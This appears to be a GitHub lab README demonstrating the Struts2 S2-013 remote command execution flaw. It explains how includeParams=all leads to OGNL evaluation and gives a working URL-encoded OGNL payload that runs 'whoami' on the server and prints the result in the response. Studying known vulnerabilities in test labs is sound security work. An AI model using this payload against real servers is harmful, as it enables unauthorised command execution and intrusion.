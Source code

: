 # S2-013 Demo

## Summary

Impact of vulnerability: Remote command execution

Affected Software:  `Struts 2.0.0` - `Struts 2.3.14.1`

Problem: `Struts2` 标签中 ` <s:a> ` 和 ` <s:url> ` 都包含一个 `includeParams` 属性，其值可设置为 none，get 或 all，参考官方其对应意义如下：

1. none - 链接不包含请求的任意参数值（默认）
2. get - 链接只包含 GET 请求中的参数和其值
3. all - 链接包含 GET 和 POST 所有参数和其值

` <s:a> `用来显示一个超链接，当`includeParams=all`的时候，会将本次请求的GET和POST参数都放在URL的GET参数上。在放置参数的过程中会将参数进行`OGNL`渲染，造成任意命令执行漏洞。

## Environment

Struts2 Version: `Struts-2.2.3`

Server: `Tomcat 9.0.34

IDE: `idea 2020.1.1 ULTIMATE`

## POC

![20200718101337](20200718101337.png)

## Payload

`HelloWorld.action?a=%24%7B%23_memberAccess%5B%22allowStaticMethodAccess%22%5D%3Dtrue%2C%23a%3D%40java.lang.Runtime%40getRuntime().exec(%27whoami%27).getInputStream()%2C%23b%3Dnew%20java.io.InputStreamReader(%23a)%2C%23c%3Dnew%20java.io.BufferedReader(%23b)%2C%23d%3Dnew%20char%5B50000%5D%2C%23c.read(%23d)%2C%23out%3D%40org.apache.struts2.ServletActionContext%40getResponse().getWriter()%2C%23out.println(%27dbapp%3D%27%2Bnew%20java.lang.String(%23d))%2C%23out.close()%7D`

## Reference

- [S2-013](https://cwiki.apache.org/confluence/display/WW/S2-013)
- [S2-013/S2-014 远程代码执行漏洞]( https://github.com/vulhub/vulhub/blob/master/struts2/s2-013/README.zh-cn.md )

